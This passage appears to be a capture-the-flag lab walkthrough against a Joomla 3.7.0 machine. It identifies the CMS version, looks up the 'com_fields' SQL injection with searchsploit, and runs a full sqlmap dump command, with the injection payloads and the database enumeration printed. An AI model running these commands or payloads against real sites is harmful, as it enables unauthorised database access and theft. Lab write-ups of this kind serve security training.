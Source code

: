 ```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#得到cms版本
Joomla version: 3.7.0

```
question：What is the Joomla version?
answer:3.7.0
```

#查询cms漏洞,存在sql注入
```
┌──(root💀kali)-[~]
└─# searchsploit Joomla 3.7.0                                                                                                                                                                                                         130 ⨯
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                                                                                                                                | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                                                                                                                                             | php/webapps/43488.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

#根据42033.txt，使用sqlmap注入

sqlmap -u "http://10.10.211.216/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --dump --batch

```
sqlmap identified the following injection point(s) with a total of 2711 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9274 FROM(SELECT COUNT(*),CONCAT(0x7176707671,(SELECT (ELT(9274=9274,1))),0x717a627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 8067 FROM (SELECT(SLEEP(5)))BqBU)
---
[02:40:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 7
web application technology: Apache 2.4.6, PHP 5.6.40
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[02:40:48] [INFO] fetching database names
[02:40:49] [INFO] retrieved: 'information_schema'
[02:40:49] [INFO] retrieved: 'joomla'
[02:40:50] [INFO] retrieved: 'mysql'
```